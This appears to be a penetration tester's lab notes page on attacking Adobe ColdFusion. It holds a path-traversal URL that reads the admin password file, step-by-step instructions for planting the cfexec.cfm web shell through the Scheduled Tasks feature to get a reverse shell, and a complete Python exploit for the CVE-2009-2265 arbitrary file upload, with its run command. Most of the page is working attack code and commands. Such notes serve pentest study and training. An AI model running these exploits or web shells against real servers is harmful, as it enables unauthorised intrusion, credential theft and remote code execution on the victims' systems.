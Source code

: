 #### Resources
https://pentest.tonyng.net/attacking-adobe-coldfusion/
http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/
https://github.com/hatRiot/clusterd/blob/master/src/platform/coldfusion/deployers/lfi_stager.py
https://www.exploit-db.com/exploits/27755
---
#### ColdFusion Password attack
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
[[Hashcat#Sha1]]
#### Admin page reverse shell
Find the local path: mappings
`Active ColdFusion Mappings.`
`Actions. Logical Path Directory Path`
`ICFIDE C:\Inetpub\WWWIGONCFIDE`
Debugging & Logging > Scheduled Tasks > Schedule New Task
```
cp /usr/share/webshells/cfm/cfexec.cfm .
```
OR
create a malicious jsp and follow similar steps! >>>
![[0._Reverse shells (WEB)#jsp]]
[[Python#Server]]
Provide Task Name.
For Frequency, set for just a few minutes in advance from current time.
**MAKE SURE TO  CHECK THE PUBLISH BOX!**
For file path, use the path found from mappings page: `C:\Inetpub\wwwroot\CFIDE\cfexec.cfm`
After hitting submit, can run tasks right away (Green button), then visit exploit to launch.
`http://$TARGET:/CFIDE/cfexe.cfm`
[[1._Reverse Shells (WIN)#Stageless Payloads]]
[[4._File Transfers]]
[[1._rlwrap]]
#### ColdFusion 8 FileUpload
https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108
FileUpload.py
```python - kali
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265
#
# Description:
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys
try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)
basepath = "http://" + ip + ":" + port + path
print 'Sending payload...'
try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```
![[0._Reverse shells (WEB)#jsp]]
![[1._rlwrap]]
```bash - kali
python FileUpload.py $TARGET 8500 shell.jsp
```
